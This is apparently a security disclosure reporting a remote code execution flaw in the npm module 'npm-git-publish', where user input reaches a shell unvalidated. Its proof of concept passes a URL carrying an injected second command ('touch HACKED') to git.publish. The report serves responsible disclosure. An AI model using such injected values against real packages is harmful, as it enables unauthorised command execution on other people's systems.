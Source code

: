 # Description

The `npm-git-publish` module is vulnerable against `RCE` due to `user-supplied` inputs being formatted and executed without proper validation

# POC

1. Create the following PoC file:

```js
// poc.js
var git = require('npm-git-publish');
git.publish('.', 'http://gihub.com ;touch HACKED; #')

```
2. Check there aren't files called `HACKED` 
3. Execute the following commands in another terminal:

```bash
npm i npm-git-publish # Install affected module
node poc.js #  Run the PoC
```
4. Recheck the files: now `HACKED` has been created
